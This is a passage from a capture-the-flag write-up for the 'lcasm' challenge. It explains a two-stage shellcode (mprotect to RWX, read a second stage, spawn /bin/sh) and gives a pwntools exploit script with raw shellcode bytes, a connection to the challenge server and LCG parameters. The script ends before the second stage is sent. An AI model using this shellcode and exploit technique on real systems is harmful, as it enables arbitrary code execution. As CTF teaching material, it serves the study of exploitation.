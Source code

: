 The `mov` and `syscall` instructions are two bytes each, and the `push` and `pop` instructions are one byte each.

Optimizations:

- reuse as much of the existing registers as possible
- exchange the register values to the correct registers using `push` and `pop`

What the shellcode does is:
- mprotect the memory region to be readable, writable, and executable
- read from stdin using the entire memory region as the buffer

Then the stage 2 shellcode is a NOP-padded shellcode that will execute `/bin/sh`.

Now the only thing left is to create the LCG and generate the numbers, which is not that hard.
Then I went to writing the exploit.

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./lcasm')

wee = '''b *0x0000555555555410
c
'''

ngee = b"\x50\x5A\xB0\x0A\xB2\x07\x0F\x05\x56\x5A\x57\x5E\x50\x5F\x0F\x05"

arr = [
        # u64(bytes(ngee)[i:i+8]) for i in range(0, len(ngee), 8)
        u64(ngee[i:i+8]) for i in range(0, len(ngee), 8)
]

print(arr)

base = 0x7ffff7fbc000 # set this to whatever region is used to mmap. this should only be necessary when debugging
for i in range(len(ngee)):
    wee += 'set *(unsigned char *)' + hex(base + i) + ' = ' + f'{ngee[i]}\n'

print(wee)

# io = gdb.debug([elf.path], aslr=False) # , gdbscript=wee)
io = remote('lcasm.chal.imaginaryctf.org', 1337)

cs = lambda ntr: str(ntr).encode()

a = cs(1)
c = cs(96337519902726)
m = cs(18446744073709551615)
x = cs(364422218585299530)

io.sendlineafter(b'x> ', x)
io.sendlineafter(b'a> ', a)
io.sendlineafter(b'c> ', c)
io.sendlineafter(b'm> ', m)

```